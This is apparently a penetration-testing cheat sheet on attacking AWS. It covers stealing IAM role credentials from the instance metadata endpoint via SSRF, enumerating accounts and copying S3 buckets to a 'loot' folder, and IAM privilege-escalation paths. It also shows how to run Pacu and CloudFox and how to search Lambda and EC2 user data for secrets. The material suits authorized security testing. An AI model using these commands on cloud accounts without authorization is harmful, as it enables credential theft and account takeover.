

#cloud #aws #ssrf #iam #s3

# AWS Enumeration & Exploitation

Related: [server-side-attacks](../Web/server-side-attacks.md) · [git-secrets](../CodeReview/git-secrets.md) · [azure](azure.md) · [gcp](gcp.md)

## Contents
- [Instance Metadata Service (SSRF Target)](#instance-metadata-service-ssrf-target)
- [AWS CLI — Initial Enumeration](#aws-cli--initial-enumeration)
- [IAM Privilege Escalation (Common Vectors)](#iam-privilege-escalation-common-vectors)
- [Secrets in Lambda / EC2 User Data](#secrets-in-lambda--ec2-user-data)

## Instance Metadata Service (SSRF Target)
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```
> [!WARNING]
> IMDSv1 requires no authentication — the second call returns temporary `AccessKeyId`/`SecretAccessKey`/`Token` for the attached role. Prime SSRF target (see [server-side-attacks](../Web/server-side-attacks.md)).

```bash
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```
> [!NOTE]
> IMDSv2 requires a session token via a `PUT` request first, which mitigates basic SSRF — but a full SSRF with arbitrary method/headers still works.

## AWS CLI — Initial Enumeration
```bash
aws sts get-caller-identity
```
Confirm which identity a set of keys belongs to.

```bash
aws iam list-users
aws iam list-roles
aws iam list-policies --scope Local
aws iam get-account-authorization-details
```
Enumerate users, roles, and customer-managed policies.

```bash
aws s3 ls
aws s3 ls s3://bucket-name --no-sign-request
aws s3 sync s3://bucket-name ./loot --no-sign-request
```
List accessible buckets; `--no-sign-request` tests for unauthenticated/public access.

## IAM Privilege Escalation (Common Vectors)
Check current principal's effective permissions, then look for any of these attached:

| Permission(s) held | Technique / impact |
|---|---|
| `iam:CreatePolicyVersion` / `iam:SetDefaultPolicyVersion` | Rewrite a policy you control to `*:*` |
| `iam:AttachUserPolicy` / `iam:AttachRolePolicy` | Attach `AdministratorAccess` to yourself |
| `iam:CreateAccessKey` | Mint new keys for a more-privileged user |
| `iam:UpdateAssumeRolePolicy` + `sts:AssumeRole` | Modify a role's trust policy to allow yourself, then assume it |
| `ec2:RunInstances` + an instance profile with a privileged role | Launch an instance, extract its credentials from IMDS |
| `lambda:CreateFunction`/`UpdateFunctionCode` + `iam:PassRole` | Run code as a privileged execution role |
| `cloudformation:CreateStack` + `iam:PassRole` | Same idea via a CFN stack |



```bash
pip3 install -U pacu
pacu
```
Launch Pacu (AWS exploitation framework).
```text
set_keys
list
run iam__enum_permissions
run iam__privesc_scan
```
Register credentials, list available modules, enumerate effective permissions, then scan for privesc paths automatically.

```bash
go install github.com/BishopFox/cloudfox@latest
cloudfox aws --profile <profile-name> all-checks
```
Run CloudFox's full AWS enumeration sweep (inventory, endpoints, instance roles, role-trust graph, secrets, permissions) to a local output directory. Review `role-trusts` first for lateral-movement paths.

```bash
pip3 install scoutsuite
python3 scout.py aws -p <profile-name>
```
Generate a local HTML audit report across the account (IAM, S3, EC2, etc.).

## Secrets in Lambda / EC2 User Data
```bash
aws lambda list-functions
aws lambda get-function --function-name <name>
aws ec2 describe-instances --query 'Reservations[].Instances[].UserData'
```
Lambda env vars and EC2 user-data scripts frequently contain hardcoded credentials.
